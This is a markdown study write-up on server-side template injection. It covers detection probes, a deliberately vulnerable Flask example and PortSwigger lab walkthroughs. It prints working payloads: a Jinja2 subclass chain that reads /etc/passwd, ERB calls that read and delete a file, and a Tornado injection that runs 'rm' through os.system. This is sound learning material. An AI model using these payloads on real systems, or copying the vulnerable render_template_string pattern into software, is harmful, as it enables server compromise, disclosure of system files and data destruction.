 # SERVER-SIDE TEMPLATE INJECTION RESEARCH
## What is SSTI?
SSTI or Server-Site template injection is when a template engines allows user inject malicious payload into a template. 

## Where do it occur in the web?
Malicious code of attacker run on server allows attacker control of the server. Depending on template engines, some of them give attacker remote code execution & take full control of back-end server using it to perform attacks to another infrastructure.

Instead of render static value, template engine allows user input dynamically generated at template and response to user (some ssti vuln not respone to user bc it not render this value to render functions).

Example: Flask (Jinja2)

**server.py**
```python
from flask import render_template

@app.route('/hello/')
@app.route('/hello/<name>')
def hello(name=None):
    return render_template('hello.html', name=name)
```

**hello.html**
```html
<!doctype html>
<title>Hello from Flask</title>
{% if name %}
  <h1>Hello {{ name }}!</h1>
{% else %}
  <h1>Hello, World!</h1>
{% endif %}
```

## How many type?
No type. Each Programming languages has different template engine so their has severally technique to exploit.

## How to detect
### BlackBox
On the blackbox side, people often check for ssti vulnerabilities through payloads of the form sequence of special characters `${{<%[%'"}}%\`. Usually, webapps that allow debugging vulnerabilities on the frontend will respond with vulnerabilities that allow the attacker to know whether the website has that vulnerability or not.

### WhiteBox
In the whitebox, when auditing the source code, if you encounter code that allows users to directly enter input without preventing special characters, it will easily lead to ssti.


Example: Python Flask (Jinja2)
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('user'):
        return render_template_string(request.args.get('user'))
    else:
        return "/?user=... input something in ..."

if __name__ == "__main__":
    app.run()

```
The URL would be:
```
http://vulnerable-website.com/?user={{7*7}}
```
Result
![alt text](image.png)

Otherwise, we can manually to identify which template engine is used by inject template engine syntax. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2.

![alt text](image-1.png)

## How to exploit (Jinja2)
With each template engine, programming language, and web server, the attack methods are more diverse and different.
### Learn the basic template syntax ???????
Learn the basic syntax of template engine or programming language that help you understand how to write a good payload to exploit (don't be script kiddie).
```python
{{configs.items()}}
```

### Find some known exploit payload to test
```python
''.__class__.__mro__[1].__subclasses__()[238]('/etc/passwd').read() }}
```
''.__class__ : type of this current instance
''.__class__.__mro__[1] : Method resolution order(MRO) using in multiple inheritances by DLR or depth-first left to right algorithm. Purpose of this is to find out object class (something has many many subclasses and function to using like)
''.__class__.__mro__[1].__subclasses__()[238]: Maybe it call to FileIO. Compile code like FileIO('/etc/passwd').read()

## How to prevent
Another measure is to only execute users' code in a sandboxed environment where potentially dangerous modules and functions have been removed altogether. Unfortunately, sandboxing untrusted code is inherently difficult and prone to bypasses.

Finally, another complementary approach is to accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example.
(Still don't know how to prevent this! => Best practices???)

## LAB 1 PORTSWIGGER - Basic server-side template injection
Look at this URL of webapp `https://0a8100d203b22e1882795106002d00ab.web-security-academy.net/?message=` this message parameter would render data response to us any input we pass to it.

So what is template engine it used? ERB?

Try to input something `<%= name %>` name is unassign variable in this app.
![alt text](image-2.png)

Error give me lots of important information -> this webapp using ERB template.

Use 
```ruby
<%= File.read('morale.txt') %>
```
![alt text](image-3.png)
Requirement: delete the morale.txt file from Carlos's home directory.
```ruby
<%= File.delete('morale.txt') %>
```
![alt text](image-4.png)
Done

## LAB 2 PORTSWIGGER - Basic server-side template injection (code context)

Simple blogger webapp
![alt text](image-5.png)
![alt text](image-6.png)

After loggin with name `wiener:peter` we can edit user account.
![alt text](image-7.png)

Testing with some special characters email has no error or ssti.

But the Preferred name function is very suspicious
Intercept the request we got:
![alt text](image-8.png)
`blog-post-author-display=user.name` => this web using dynamic data pass through Tornado to render name of user. The idea that we need to exploit this vuln here by inject our payload like `}}{%%20import%20os%20%}{{os.system('rm%20/home/carlos/morale.txt')` that I was referred above.

![alt text](image-9.png)